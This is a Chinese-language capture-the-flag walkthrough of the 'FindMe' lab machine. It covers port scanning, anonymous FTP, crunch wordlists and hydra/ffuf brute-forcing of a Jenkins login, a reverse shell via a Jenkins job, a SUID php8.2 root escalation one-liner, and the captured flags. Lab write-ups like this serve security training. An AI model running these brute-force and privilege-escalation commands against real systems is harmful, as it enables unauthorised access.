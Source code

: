 # FindMe

2025.03.05 https://thehackerslabs.com/find-me/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，爆破（注意要加 C=/login，否则没有 cookie 爆破一直不成功）：

```
crunch 5 5 -t p@@@a -o pass.txt
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt  # 这个密码字典更大更全，先用上面的小写字母生成，爆不出来再用这个
```

```
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:C=/login:F=Invalid username or password" -f
[8080][http-post-form] host: 192.168.5.40   login: geralt   password: panda
```

或者使用 ffuf 进行爆破：

```
ffuf -c -X POST -w pass -u http://192.168.5.40:8080/j_spring_security_check -H 'Content-Type: application/x-www-form-urlencoded' -d 'j_username=geralt&j_password=FUZZ&from=%2F&Submit=' -fr 'loginError'
```

先将请求用 BP 拦截，保存到文件中 req.txt：

```
POST /j_spring_security_check HTTP/1.1
Host: 192.168.5.40:8080
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.5.40:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.5.40:8080/login?from=%2F
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID.2665f1e3=node01pmqddxyq7z2w1ubxf6ku9eroy169554.node0
Connection: close

j_username=geralt&j_password=FUZZ&from=%2F&Submit=
```

然后进行爆破，同样可以得到账户的密码：

```
ffuf -ac -request req.txt -request-proto http -w pass -t 100
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr 'loginError'
或
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr '.*loginError.*'
```

爆出密码 panda，登陆 jenkins。创建 item，执行反弹 shell 到 kali 上：

```
jenkins@find-me:~/workspace/shell$ id
id
uid=104(jenkins) gid=110(jenkins) grupos=110(jenkins)
```

发现 suid /usr/bin/php8.2

```
/usr/bin/php8.2 -r "posix_setuid(0); system('/bin/bash');"
```

直接拿到 root 权限，获得 flag：

```
root@find-me:/home/geralt# cat user.txt
be336806b564e9fd7812aef123f80b7b
root@find-me:/home/geralt# cat /root/root.txt
71b5a461e7df11a40f29c707a8b1b05f
```
